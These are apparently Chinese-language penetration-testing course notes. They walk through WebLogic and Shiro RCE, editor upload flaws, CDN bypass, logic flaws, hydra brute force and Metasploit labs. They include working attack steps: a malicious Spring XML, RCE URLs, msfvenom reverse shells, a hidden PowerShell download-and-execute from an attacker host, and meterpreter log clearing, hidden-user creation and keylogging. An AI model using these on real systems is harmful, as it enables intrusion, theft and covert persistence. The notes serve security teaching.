  - 2020年Oracle官方发布了数百个组件的高危漏洞公告。其中组合利用CVE-2020-14482 & CVE-2020-14483 可使攻击者绕过WebLogic后台登录限制，远程执行代码获取WebLogic服务器权限，利用难度极低，风险极大

- 漏洞原理
  - CVE-2020-14482：允许未授权的用户绕过管理控制台的权限验证访问后台
  - CVE-2020-14483：允许后台任意用户通过HTTP协议执行任意命令
  - 这两个漏洞的组合利用，可以让攻击者以未授权的身份登录后台，然后通过GET请求在Weblogic服务器上远程执行命令

- 影响范围
```
WebLogic 10.3.6.0.0
WebLogic 12.1.3.0.0
WebLogic 12.2.1.3.0
WebLogic 12.2.1.4.0
WebLogic 14.1.1.0.0
```

- 环境搭建
  - Vulhub：https://vulhub.org/
  - vnlhub是一个基于docker和docker-compose的漏洞环境集合，进入对应目录并执行一条语句即可启动一个全新的漏洞环境，让漏洞复现变得更加简单，让安全研究者更加专注于漏洞原理本身。

- 下载安装
```
安装docker

安装Docker-compose: yum install -y docker-compose

或者按官方文档

安装PIP
curl -s https://bootstrap.pypa.io/get-pip.py | python3

安装docker-compose
pip install docker-compose

下载Vulhub
git clone https://github.com/vulhub/vulhub.git

或者从gitee下载
git clone https://gitee.com/hundan-90/vulhub.git
```

- 开始使用
```
启动环境
在Vulhub中选择某个环境，进入漏洞目录启动：docker-compose up -d

漏洞测试
Vulhub中所有漏洞环境均配置了详细的文档，包括如何编译、启动、原理、复现，详见
http://vulhub.org/#/environments/

操作容器
停止：docker-compose stop
开启：docker-compose start
移除；docker-compose down
```

- 漏洞演示
  - CVE-2020-14882
  - 使用`ip:7001/console/css/%252e%252e%252fconsole.portal`可以在不登录账号的情况下进入管理后台
  

  - CVE-2020-14883
  - 利用方式1：
    - 通过com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext类实现，这种方法最早在CVE-2019-2725(Weblogic反序列化漏洞)被提出，是一个通杀的方法，对Weblogic的所有版本均有效。此方法需要借助XML文件，通过访问XML文件来执行命令
    - 过程：
      - 构造一个恶意的XML文件，将其保存在Weblogic可以访问的服务器上，如`http://example.com/rce.xml`
      ```xml
      <?xml version="1.0" encoding="utf-8"?>
      <beans xmlns="http://www.springframework.org/schema/beans"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd"     
      >
        <bean id="pd" class="java.lang.ProcessBuilder" init-method="start">
          <constructor-arg>
            <list>
              <value>bash</value>
              <value>-c</value>
              <value><![CDATA[touch /tmp/geektime1]]></value>
            </list>
          </constructor-arg>
        </bean>
      </beans>
      ```
      - 将xml文件放入dvwa的服务器中，然后构建以下URL
      - 访问如下URL，即可让Weblogic加载该恶意XML文件，并执行其中的命令：
      ```
      http://192.168.0.88:7001/console/images/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.0.90:8081/hackable/uploads/rce1.xml")
      ```
      - 访问Weblogic服务器可发现`touch /tmp/geektime1`已被执行
      - 利用的不足之处：需要Weblogic服务器能够访问到恶意XML，即该服务器能够与外网通信
  - 利用方法2：
    - 通过`com.tangosol.coherence.mvel2.sh.ShellSession`类实现，这个利用方法只能在Weblogic12.2.1以上版本利用，因为10.3.6版本没有这个类。
    - 直接访问如下URL，即可执行命令：
    ```
    http://your-ip:7001/console/images/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/geektime2');")
    ```
    - 进入容易，可以发现`touch /tmp/geektime2`已经成功执行


### Shiro RCE
- 漏洞概述：
  - Apache Shiro是一款开源Java安全框架，提供身份验证、授权、密码学和会话管理等功能。
  - Shiro反序列漏洞(CVE-2016-4437、Shiro-550) : 在Apache Shiro的框架中，执行身份验证时提供了一个记住密码的功能(RememberMe)，如果用户登录时勾选了这个选项，用户的请求数据包中的Cookie字段将会多出一段数据，这一段数据包含了用户的身份信息，且是经过加密的，加密过程：
  ```
  用户信息 --> 序列化 --> AES加密(这一步需要用密钥key) --> Base64编码 --> RememberMe Cookie值
  ```
  - 识别身份的时候，服务端需要对Cookie里的RememberMe字段解密。根据加密的顺序，反推解密过程：
  ```
  RememberMe --> Cookie值 --> Base64解码 --> AES解密 --> 反序列化(未做过滤处理) --> 用户信息
  ```
  出问题的点在于：AES加密的密钥Key被硬编码在代码里(默认密钥：kPH+blxk5D2deZilxcaaaA==)，这就意味着任何人都可以通过源代码拿出AES加密的密钥。因此，如果把用户信息替换为恶意命令，经过序列化、AES加密、Base64编码后，作为Cookie的RememberMe字段发送。服务端接收RememberMe字段进行解码、解密，反序列化过程未进行过滤，最终造成该漏洞，实现远程命令执行。

- 影响范围
```
Apache Shiro <= 1.2.4
```

- 环境搭建
```
Vulhub /shiro / CVE-2016-4437
账号：admin
密码：vulhub
```

- 漏洞演示
  - 未登录的情况下（仅刷新页面），请求包的Cookie中没有RememberMe字段，返回包set-Cookie也没有deleteMe字段
  - 登录失败的话，不管有没有勾选"Remember me"，返回包都会有RememberMe=deleteMe字段
    - 进入靶场，随便输入一个账号密码，在不勾选RememberMe的情况下，抓包
    - 请求包：
    
  - 不勾选"Remember me"，登录成功的话，返回包set-Cookie里有RememberMe=deleteMe字段，但是之后的所有请求中Cookie都不会有RememberMe字段
  - 勾选"Remember me"，登录成功的话，返回包set-Cookie里有RememberMe=deleteMe字段，还会有RememberMe的加密字段，之后的所有请求中Cookie都会有RememberMe字段
    - 请求包与相应包
    
    - 登录成功后，之后的请求包都有RememberMe的加密字段
    

  - 或者可以在cookie后面自己加一个RememberMe=1，看返回包有没有RememberMe=deleteMe

- 分析
  - 只要响应包中出现RememberMe=deleteMe字段就说明登录页面采用了Shiro框架进行身份验证，但是不能直接说明存在漏洞
  - 接下来开始进行漏洞检测，Shiro反序列化漏洞的检测会面临一些问题：
    - 漏洞无法回显
    - 系统环境复杂
    - AES的key可能被修改

- 目前针对Shiro反序列化漏洞，主流方向是使用专业的漏洞利用工具来进行检测
  - 工具下载链接；`https://github.com/feihong-cs/ShiroExploit-Deprecated/releases`


## 编辑器漏洞
### 常规编辑器漏洞
- 一般的企业搭建网站有可能是通用的模板，比如wordpress,emblog,zblog,discuz,dedecms等等，这些现成的CMS后台(Content Management System)如果需要发文章，可能会用到编辑器，比如ewebeditor，fckeditor，kindeditor，ueditor等待，这些编辑器是由专门的团队运营开发的。编辑器有可能存在漏洞，只要使用了该编辑器并且该编辑器的版本存在漏洞，那么网站就会存在相应的漏洞

- 编辑器漏洞通常有如下利用方式
  - 编辑器配合解析漏洞进行利用
  - 编辑器自身的漏洞利用

- FCKeditor
  - 获取版本号
  ```
  /FCKeditor/_whatsnew.html
  /FCKeditor/editor/dialog/fck_about.html
  ```
  - 常见的测试上传地址
  ```
  FCKeditor/editor/filemanager/brower/default/connector/test.html
  FCKeditor/editor/filemanager/upload/test.html
  FCKeditor/editor/filemanager/connectors/test.html
  FCKeditor/editor/filemanager/connectors/uploadtest.html
  FCKeditor/editor/filemanager/browser/default/browser.html
  ```
  - 常见的示例上传地址
  ```
  FCKeditor/_samples/default.html
  FCKeditor/editor/fckeditor.htm
  FCKeditor/editor/fckdialog.html
  ```
  - 可能存在的其他上传点
  ```
  FCKeditor/editor/filemanager/browser/default/connectors/asp/connector.asp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
  FCKeditor/editor/filemanager/browser/default/connectors/php/connector.php?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
  FCKeditor/editor/filemanager/browser/default/connectors/aspx/connector.aspx?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
  FCKeditor/editor/filemanager/browser/default/connectors/jsp/connector.jsp?Command=GetFoldersAndFiles&Type=Image&CurrentFolder=/
  FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com/fckeditor/editor/filemanager/connectors/php/connector.php
  FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com/fckeditor/editor/filemanager/connectors/asp/connector.asp
  FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com/fckeditor/editor/filemanager/connectors/aspx/connector.aspx
  FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=http://www.site.com/fckeditor/editor/filemanager/connectors/jsp/connector.jsp
  ```
  - brower.html文件
  ```
  FCKeditor/editor/filemanager/browser/default/browser.html?type=Image&connector=connectors/asp/connector.asp
  FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/jsp/connector.jsp
  fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/aspx/connector.Aspx
  fckeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/php/connector.php
  ```

### 常规编辑器漏洞攻击还原
- 挖掘编辑器漏洞的思路
  - 通过目录扫描，爬虫识别编辑器
  - 寻找编辑器版本对应的漏洞
  - 利用该编辑器漏洞

- FCKeditor编辑器漏洞攻击还原
  - 搭建环境：Windows7 + phpstudy_64(php 5.4.45)
  - 本质上是文件上传漏洞，并不算是新的漏洞


## 旁注、跨库、CDN绕过
- 漏洞环境搭建
```
bluecms v1.6 sp1源码
Windows7
phpstudy2018(php5.4.45)
```

- 旁注和跨库演示
  - 漏洞挖掘过程
    - 信息收集（子域名，子目录，邮箱和ip信息）、扫描 --> 子域名&旁站 --> 新业务、新域名、新系统
    - 在渗透测试过程中，如果这个正面难以突破，那么就采用一些迂回战术，从侧面来进行，也就是采用一些间接的方法，例如旁注，通过旁站来进行渗透
    - 详细过程：<a href="../homework/1028homework/hw1028.md">1028作业</a>

- CDN绕过
  - CDN概述：CDN的全称是Content Delivery Network,即内容分发网络。CDN是构建在现有网络基础之上的只能虚拟网络，依靠部署在各地的边缘服务器，通过中心平台的负载均衡、内容分发、调度等功能模块，使用户就近获取所需内容，降低网络拥塞，提高用户访问相应速度和命中率。
  - 域名解析过程
    - 传统访问：用户访问域名 --> 解析IP --> 访问目标主机
    - CDN模式：用户访问域名 --> CDN节点 --> 真实IP --> 目标主机
  - 检测网站是否采用了CDN
    - 利用多地ping
      - 快速检测目标是否存在CDN，如果得到的IP归属地是某CDN服务商，或者每个地区得到的IP地址都不一样则说明可能存在CDN，可以使用以下网址检测
      ```
      https://wepcc.com
      http://ping.chinaz.com
      https://mping.chinaz.com
      http://ping.aizhan.com
      http://tcping8.com/ping/
      ```
  - 利用nslookup
    - 如果返回域名解析对应多个IP地址多半使用了CDN
  - 查找真实IP方法
    - 查询历史DNS记录（原理：在网站建站之初，由于流量不大，可能并没有上CDN，所以查看DNS记录，就可能找到真实IP ）
    ```
    DNS查询：https://www.malapan.com/dnshistory/safepub.com
    https://www.racent.com/dns-check
    微步在线：https://x.threatbook.cn/
    在线域名信息查询：http://toolbar.netcraft.com/site_report?url=
    DNS、IP等查询：http://viewdns.info/
    CDN查询IP：https://tools.ipip.net/cdn.php
    ```
    - 子域名查询
    ```
    很多站点可能只会对主站或者流量大的子站做CDN，而很多小站子站点又跟主站部署在同一台服务器或者同一个C端内，此时就可以通过查询子域名对应的IP来辅助查找网站的真实IP

    第三方接口：
    https://x.threatbook.cn/
    https://dnsdb.io/zh-cn/
    https://site.ip138.com/

    google语法：Google site: baidu.com

    子域名扫描器 ：subdomainbrute、amass、OneForAll子域名挖掘机等等
    ```
    - 网络空间测绘
    ```
    网络空间测绘收录了域名及其关键字等信息，很多时候能获取网站的真实IP

    shadan: https://www.shodan.io/
    fofa：https://fofa.info/
    hunter: https://hunter.qianxin.com
    zoomeye: https://www.zoomeye.org/
    ```
    - 利用网站漏洞
    ```
    phpinfo之类的探针、GitHub信息泄露等、XSS盲打、命令执行反弹shell等
    ```
    - 利用邮件服务器找到真实IP
    ```
    在注册一些需要发送邮件的地方让服务器给自己发邮件，然后查看邮件服务器IP。这种情况比较适用于小站，因为很多大型企业的邮件服务器是独立的
    ```
    - 通过分析目标C段来判断真实IP

## 越权漏洞
### 越权漏洞原理介绍
- 越权访问(Broken Access Control,简称BAC)是Web应用程序中一种常用的漏洞，由于其存在范围广、危害大，常常被）OWASP列为Web应用十大安全隐患的第一名
- 该漏洞是指应用在检查授权时存在纰漏，使得攻击者在获得低权限用户账号后，利用一些方法绕过权限检查，访问或者操作其他用户信息或者获取更高权限。
- 越权漏洞的成因主要是因为开发人员在对数据进行增删改查时对客户端请求的数据过分相信而遗漏了权限的判定
- 在实际的代码审计中，这种漏洞往往很难通过工具进行自动化检测，因此在实际应用中危害很大。其与未授权访问有一定差别，目前存在着两种越权操作类型，横向越权操作(水平越权)和纵向越权操作（垂直越权）
```
水平越权：指相同权限下不同的用户可以互相访问
垂直越权：指使用权限低的用户可以访问到权限较高的用户
水平越权测试方法：主要通过看看能否通过A用户操作影响到B用户
垂直越权测试方法：看看低权限用户是否能越权使用高权限用户的功能，比如普通用户可以使用管理员的功能
```
### 水平越权攻防还原
- 详情；<a href="../homework/1028homework/hw1028.md">1028作业</a>
### 垂直越权攻防还原
- 详情；<a href="../homework/1028homework/hw1028.md">1028作业</a>

### 越权漏洞修复
- 前后端同时对用户输入信息进行校验，双重认证机制
- 执行关键操作前必须验证用户身份，验证用户是否具备操纵数据的权限
- 特别敏感的操作可以让用户再次输入密码或加入其他的验证信息，防止CSRF攻击
- 可以从用户的加密认证cookie中获取当前用户的id防止攻击者对其修改，或在session、cookie中加入不可预测、猜解的user信息
- 对想要引用的资源ID进行加密，防止攻击者枚举ID，敏感数据特殊化处理


## 逻辑漏洞
### 逻辑漏洞概述
- 由于程序逻辑输入管控不严，导致程序不能够正常处理或处理错误，进而产生的漏洞。一般出现在登录、注册、密码找回、信息查看、交易支付金额等位置，由于逻辑漏洞产生的流量多为合法流量，一般的防护手法或设备无法阻止，也导致了逻辑漏洞称为了企业防护中的难题

### 如何挖掘逻辑漏洞
- 注册处
  - 注册功能可能出现任意用户注册，短信轰炸等问题
  - 前端验证：判断是否有任意用户注册漏洞
  - 手机验证码验证：验证码是否可以暴力破解
  - 用户名密码注册：是否会导致批量注册

- 登录处
  - 登陆处可能出现任意用户登录，短信轰炸等问题
  - 同上

- 密码找回处
  - 验证码是否可以多次使用
  - 验证码是否直接返回在数据包中
  - 验证码未绑定用户
  - 修改接收的手机或邮箱进行密码重置
  - 前端验证绕过
  - 验证步骤绕过（例举：先获取手机验证码，再输入要修改的邮箱和密码）
  - 未校验用户字段的值（举例：修改密码user_id可替换）等等

- 支付和越权 

- 逻辑漏洞靶场搭建
  - 漏洞环境：webug
  - 使用docker安装
  ```
  docker pull area39/webug
  docker run -d -p 8082:80 -p 33060:3306 area39/webug
  ```
  - 安装成功后访问：http://127.0.0.1:8082/control/login.php
  ```
  默认账号：admin/admin
  数据库账号：root/root
  ```

## 暴力破解
- 概述：暴力破解是一种针对于密码的破译方法，即将密码进行逐个推算直到找出正确的密码为止
- 暴力破解的产生是由于服务器或者系统没有对接收的参数进行限制，导致攻击者可以通过暴力手段破解所需要的信息(如账号，密码，验证码等)。暴力破解的原理就是穷举法，其基本思想是根据部分已知条件确定大致范围，并在此范围内对所有可能的情况逐一验证，直到全部情况验证完毕。

### C/S架构暴力破解
- 常用于网络协议、系统、数据库、第三方应用密码的破解：
```
暴力破解FPT、SSH、SMB、Sqlserver、Mysql、Redis等
```
- 工具：hydra（九头蛇）

#### hydra的使用
- hydra常用参数
```
-l        指定一个用户名
-L        指定一个用户名字典
-P        指定一个密码字典
-s        指定端口
-vV       显示每次的尝试信息
-f        遇到正确的密码，停止爆破
-o        将结果输出到文件中
-M        指定一个服务器列表
-t        Tasks同时运行的线程数，默认为16
-e nsr    n: 尝试空密码   s: 将用户名作为密码   r: 将用户名反向
```
- 示例：
```
hydra 192.168.0.85 mysql -l admin -P /home/zhangyifeng/桌面/test_passwd.txt -vV -f
```


###  B/S架构暴力破解
- B/S架构即浏览器/服务器结构，暴力破解：
- 工具：burp


## 验证码安全
### 验证码安全介绍即分类
- 在安全领域，验证码主要分为两大类：操作验证码和身份验证码
- 验证码的主要作用：防止恶意暴力破解、防止恶意注册、刷票、论坛灌水等一切脚本行为
- 验证码的分类：手机短信、手机语音、通用文字、加减法、非通用文字、非通用文字加背景随机拉伸、无感知、滑动拼图、文字点选、图标点选、推理拼图、短信上行、语序点选、空间推理、语音验证等

### 验证码绕过（on client）
- 绕过方法：
  - 禁用js
  - burp


## Kali MSF
- 概述：The Metasploit Framework（简称metasploit），它是一款开源的安全漏洞利用和测试工具，也是目前最流行、最强大、最具扩展性的渗透测试框架之一。集成了各种平台上常见的漏洞和流行的shellcode，并持续保持更新。拥有世界上最大的渗透测试攻击数据库，可以利用其现有的payload进行一系列的渗透测试。

### 如何使用MSF
- MSFconsole是使用Metasploit框架(MSF)的最常用的接口，通过该接口可以实现对MSF的控制和使用。它提供了一个“一体式”集中式控制台，并允许访问MSF中几乎所有可用的选项

### 启用MSFconsole
- 在Kali系统的命令行中输入`msfconsole`即可启动。MSFconsole位于/usr/share/metasploit-framework/msfconsole目录中

- 加`-q`选项删除开始的图形，是msfconsole的安静启动模式
```
# msfconsole -q
msf >
```
### MSF console Commands
#### 帮助命令
```
>> msfconsole -h

msf > help
```

#### 寻找需要的漏洞
- 使用tab补全
```
示例：
msf > use exploit/windows/smb/漏洞编号

格式：use <漏洞利用模块> / <操作系统> / <服务> / 具体漏洞编号
```
- exploit是Metasploit最常用的接口。

#### back
- 一旦完成了特定模块的工作，或者如果无意中选择了错误的模块，可以使用`back`命令返回前一个命令行
```
msf auxiliary(ms09_001_write) > back
msf >
```

#### banner
- 显示banner信息
```
banner 图片

Metasploit

       =[ metasploit v6.3.16-dev                          ]
+ -- --=[ 2315 exploits - 1208 auxiliary - 412 post       ]
+ -- --=[ 975 payloads - 46 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: View all productivity tips with the 
tips command
Metasploit Documentation: https://docs.metasploit.com/
```
- exploits
  - 利用系统漏洞进行攻击的动作，该模块通常对应到每个具体漏洞的利用方法
  
- auxiliary
  - 辅助模块，负责信息收集、扫描、嗅探、指纹识别

- post
  - 后期渗透模块，在获得目标系统的远程控制权后(拿下系统后)，进行一系列的后渗透攻击动作

- payload:
  - 漏洞利用代码

- encoders
  - 编码，通常用于给漏洞利用代码加密，用于躲避防火墙之类的杀毒软件

- nops（很少用到）
  - 提高payload的稳定性

#### check
- 漏洞检查选项，可以检测目标是否容易受到特定的漏洞攻击，而不是实际利用它。需要注意的是，支持check的漏洞利用模块并不多
```
msf exploit(ms08_067_netapi) > show options

// 查看漏洞利用模块详情，里面如果有check选项，表示该模块可以使用check进行利用前检测

msf exploit(ms08_067_netapi) > check
```

#### color
- 设置字符颜色
```
msf > color true  # 开启，默认选项

msf > color false  # 关闭
```

#### connect
- msfconsole中内置了一个微型Netcat，支持SSL、代理和文件传输。通过发出的connect带有IP地址和端口号命令，可以从msfconsole中连接到远程主机，就像使用Netcat或Telnet一样
```
msf > connect 192.168.1.1 23
```

#### exit
- 退出msfconsole，回到终端命令行

#### grep
- 功能类似于linux中的grep
```
msf > grep weblogic search oracle

// 搜索oracle中包含weblogic的漏洞利用模块
```

#### info
- 信息命令会提供包含所有选项、目标和其他信息的特定漏洞利用模块的详细信息
- info命令还提供以下信息
```
作者和许可信息
漏洞参考（即：CVE、BID等）
模块可能具有的任何有效载荷限制
```

#### jobs
- 对工作在后台的进程进行操作
```
查看后台会话(进程)

msf > jobs <options>

option:
-K Terminate all running jobs
-h Help banner
-i Lists detailed information about a running job
-k Terminate the specified job name
-l List all running jobs
-v Print more detailed info. Use with -i and -l
```

#### kill
- 杀死正在运行的进程
```
msf > kill 0  # 0 表示需要杀死的进程序号，序号可以使用jobs查看
```

#### search
- msfconsole包含广泛的基于正则表达式的搜索功能。如果对所要查找的内容大致了解，可以通过search进行搜索
```
msf > search mysql
```

- 参数
  - name：要使用描述性姓名进行搜索，需要使用name关键字
  ```
  msf > search name:mysql  # 相当于在describe的列上搜索
  ```
  - platform：以平台为关键信息进行搜索
  ```
  msf > search platform : aix(or windows linux...)
  ```
  - type：按模块类型进行过滤，如辅助，利用，后利用
  ```
  msf > search type:post (or exploit, auxiliary)
  ```
  - author：按作者进行搜索
  - cve：按漏洞编号（如年份，进行搜索）

#### session
- `session`命令允许列出、与衍生会话交互和终止衍生会话
```
session -l  # 列出所有后台的会话

session -i <序号>  # 进入后台对应序号的会话
```

#### set
- 允许为正在使用的当前模块配置框架选项和参数
```
set <框架选项> <参数>
```
- Metasploit还允许设置在运行时使用的编码器。当不确定哪些有效负载编码方法与给定的漏洞一起工作时，就需要进行选择。这在漏洞利用开发中特别有用
```
show encoders  # 展示所有的编码器

set <编码器名称>  # 进行选择
```

#### unset
- 取消设置

#### options
- 显示该漏洞利用模块的配置信息 
- 也可以使用`show options`，显示该特定模块下必要&可选的设置项


#### setg
- 为了节省渗透期间的大量输入，可以在msfconsole中设置全局变量
- 可以使用setg命令执行此操作。一旦这些设置完成，可以在任意多的漏洞利用和辅助模块中使用他们，还可以保存它们以供下次启动msfconsole时使用
```
msf > seg LHOST 192.168.1.101

格式：
set  <框架选项>  <参数>
```

#### show
- 在msfconsole提示符下输入show命令将显示metasploit中的每个模块，比如常用的命令
```
msf > show auxiliary
msf > show exploit
msf > show payloads
msf > show encoders
```

#### auxiliary
- Metasploit的辅助模块，主要用于信息收集阶段，功能包括扫描、口令才接、敏感信息嗅探、FUZZ测试发掘漏洞、试试网络协议欺骗等

#### exploits
- show exploits是Metasploit的核心模块——利用漏洞。运行show exploits以获取MSF框架中包含的所有漏洞的列表

#### payload
- 可以通过`set payload`去修改利用模块中的指定payload
```
示例：将默认linux的改为windows的payload
msf exploit(multi/mysql/mysql_udf_payload) > set payload linux/meterpreter/reverse_tcp

原选项为：Payloads options (windows/meterpreter/reverse_tcp)
```

#### targets
- 如果不确定操作系统是否易受特定攻击，在攻击模块的上下文运行`show targets`命令，查看支持哪些目标
- 或者在明确目标系统的具体信息，可是使用`set targets`设置目标系统来提供payloads的稳定性和成功率

#### advanced
- 如果希望进一步微调漏洞，可以使用`show advanced`查看高级配置选项

#### encoders
- 运行`show encoders`将显示MSF中可用的编码器列表

#### use
- 用来选定进入，需要的漏洞利用模块
```
use 名称 / use 序号
```

### MSF 漏洞利用
#### MS08-067漏洞
- MS08-067漏洞会影响Windows 2000/XP/Server/Vista/Server 2008的各个版本，甚至还包括测试阶段的Windows 7 Pro-Beta
- 如果用户在受影响的系统上收到特指的 RPC请求，则可能导致攻击者在未经身份验证的情况下利用此漏洞运行任意代码，实现远程代码执行。现阶段，已经可以通过防火墙来阻断该漏洞的攻击

```
控制靶机
meterpreter >

清除日志：
meterpreter > shell
C:/... > clearev

新增用户：
C:/... > net user geektime geektime123 /add

新增隐藏用户：
C:/... > net user hack$ hack123 /add

查看当前的进程
meterpreter > ps

监听进程迁移
meterpreter > migrate <PID>

迁移后，记录键盘输入
meterpreter > keyscan_start

读取键盘输入
meterpreter > keyscan_dump

将当前会话放入后台
meterpreter > background

后续可以通过session -l 和 session -i，重新进入会话
```
  
#### MS10-018
- MS10-018是IE浏览器上的漏洞，主要危害Internet Explorer 6-7，攻击者可以通过该漏洞获取受害者主机的控制权

- 参数
  - srvhost: 反弹监听地址 示例：192.168.0.99
  - uripath: 路径 示例：/geektime
  - srvport: 默认监听端口：8080
  - 三项可以合并成一个钓鱼网站的地址：192.168.0.99:8080/geektime


#### Bash Shellshock CVE-2014-6271
- Shellshock的原理是利用了Bash在导入环境变量函数所触发的漏洞，启动Bash的时候，它不但会导入函数，而且也会把函数后面的命令一并执行。在有些CGI脚本的设计中，数据是通过环境变量来传递的，这就给了数据提供者利用Shellshock漏洞的机会
- 简单来说就是由于服务器的CGI脚本调用了bash命令，由于bash版本过低，攻击者把有害数据写入环境变量，传到服务器端，触发服务器运行Bash脚本，完成攻击

- 漏洞原理：该Bash使用的环境变量通过函数名称来调用，导致漏洞的问题点是以(){开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令
  
- 漏洞利用；
- 使用docker直接search该漏洞镜像
```
docker search CVE-2014-6271 
```

#### 远程命令执行漏洞 CVE-2017-8464（震网三代）
- 漏洞描述：
  - 2017年6月13日，微软官方发布编号为CVE-2017-8464的漏洞公告，官方介绍Windows系统在解析快捷方式时存在远程执行任意代码的高危漏洞，黑客可以通过U盘，网络共享等途径触发漏洞，完全控制用户系统，安全风险高危。
  - Windows系统使用二进制解析.LNK文件，当恶意二进制代码被系统识别执行时即可实现远程代码执行，由于是在explorer.exe(桌面进程)进程中运行，所以load进内存时与当前用户具有相同权限。
  - 攻击者利用这一解析过程将包含恶意二进制的代码附带进可移动驱动器，受害者使用powershell解析.LNK文件后即被黑客所控制。
  - 成功利用此漏洞的攻击者可能获得与本地用户相同的权限

- 漏洞利用
  - msfvenom用于生成木马，是msfpayload和msfencode的组合框架
  - 在kali使用msfvenom生成一个反弹shell
  ```
  msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.0.99 lport=4444 -f psh-reflection > ~/test.ps1
  ```
  - 将生成的test.ps1文件复制到/var/www/html目录下
  - 在kali中启用apache服务
  ```
  service apache2 start
  ```
  - 在靶机上创建一个快捷方式，输入输入下列信息
  ```
  powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.99/test.ps1');testx.ps1"
  ```
  - 在kali开启一个监听
  ```
  msfconsole

  use exploit/multi/handler  //监听模块

  set payload windows/x64/meterpreter/reverse_tcp
  (该模块payload与生成木马文件的payload一致)
  set LHOST 192.168.0.99
  show options
  ```
  - 开启监听（exploit）

  - 点击靶机上的powershell

  - 成功rce

#### MS17-010漏洞
- 漏洞简介：
  - 永恒之蓝漏洞(MS17-010)，它的爆发源于WannaCry勒索病毒的诞生，该病毒是不法分子利用NSA(National Security Agency，美国国家安全局)泄露的漏洞"EternalBlue"（永恒之蓝）进行改造而成。该漏洞可以通过TCP的139和445端口，攻击Windows系统的SMB服务，造成远程代码执行
  - MS17-010漏洞主要是针对于Windows操作系统

- 漏洞利用
  - Win7系统中的MS17-010利用条件
  ```
  - 防火墙必须允许SMB流量出入
  - 目标必须使用SMBv1协议
  - 目标必须缺少MS17-010补丁
  - 目标必须允许匿名IPC$和管道名
  ```
  - msdn下载的纯净系统下，2，3条件天然满足
  - 关闭防火墙
  - 使用`gpedit.msc`进入主策略 -> windows设置 -> 安全设置 -> 本地策略 -> 安全选项 -> 禁用（网络访问：限制对命名管道和共享的匿名访问）默认开启
  - 更改主策略后重启
  ```
  msfconsole
  search ms17-010
  ```
  - 利用详情，详见作业 <a href="../homework/1104homework/hw1104.md">hw1104</a>

#### Flash漏洞 CVE-2018-4878
- 漏洞简介
  - 2018年2月1号，Adobe官方发布安全通报(APSA18-01)，声明Adobe Flash 28.0.0.137及其之前的版本，存在高危漏洞（CVE-2018-4878）
  - 攻击者通过构造特殊的Flash链接，当用户用浏览器/邮件/Office访问此Flash链接时，会被“远程代码执行”，并且直接被getshell

- 漏洞利用环境
```
- kali Linux + Windows 7 sp3
- 攻击机：kali Linux
- 靶机：Windows 7 sp3
- exp：cve-2018-4878.py
- flash: flashplayer_activex_28.0.0.137.exe
```

- 攻击流程
  - 在kali中使用msfvenom生成漏洞利用代码
  ```
  msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.99 lport=4445  -f  python>flash_shellcode.txt
  ```
  - 将CVE-2018-4878.py 脚本文件移至kali，修改漏洞脚本文件CVE-2018-4878.py
  - 将生成的shellcode代码替换到脚本文件中
  - 更改python脚本中生成文件的路径
  - 使用python2解释器，执行脚本文件
  ```
  python2 CVE-2018-4878.py
  ```
  - 执行完python脚本后，在当前目录下生成了2个脚本文件

  - 开启Apache服务，并将生成的两个文件拷贝到apache服务目录下
  ```
  service apache2 start
  cp /root/* /var/www/html
  ```
  - 在kali开启监听
  ```
  msfconsole
  use exploit/multi/handle
  set payload windows/meterpreter/reverse_tcp

  set lhost 192.168.0.99
  set lport 4445
  ```
  - 在靶机安装flash
  - 访问在kali中生成好的index2.html页面
  - 成功获取meterprete


## 等级保护
- 概念：信息安全等级保护是指对国家秘密<font color=tomato>信息</font>、法人和其他组织、公民的专有信息以及公开信息和存储、传输处理这些信息的<font color=tomato>信息系统</font>分等级实行安全保护，对信息系统中使用的<font color=tomato>信息安全产品</font>实行按等级管理，对信息系统中发生的<font color=tomato>信息安全事件</font>分等级响应、处置。

### 等级保护对象
- 等级保护对象是指网路安全等级保护工作中的对象：通常指由计算机或者其他信息终端及相关设备组成的按照一定的规则和程序对信息进行收集、存储、传输、交换、处理的系统，主要包括：基础信息网络，云计算平台/系统、大数据应用/平台/资源、物联网、工业控制系统和采用移动互联技术的系统等
- 总结：
  - 基础信息网络
  - 云计算
  - 大数据
  - 物联网
  - 工业控制系统
  - 移动互联系统

- 等级保护对象根据其在国家安全、经济建设、社会生活中的<font color=tomato>重要程度</font>、遭到破环后对国家安全、社会秩序、公共利益以及公民、法人和其他组织的合法权益的<font color=tomato>危害程度</font>等，由低到高分为5个安全保护等级

### 安全保护等级（5级）
- 第一级：
  - 定义：等级保护对象遭到破环后，对公民、法人和其他组织的合法权益造成损害，但<font color=tomato>不损害国家利益、社会秩序和公共利益</font>

- 第二级：
  - 定义：等级保护对象遭到破环后，对公民、法人和其他组织的合法权益造成<font color=tomato>严重</font>损害，或<font color=tomato>对社会秩序和公共利益造成损害，但不损害国家安全</font>

- 第三级：
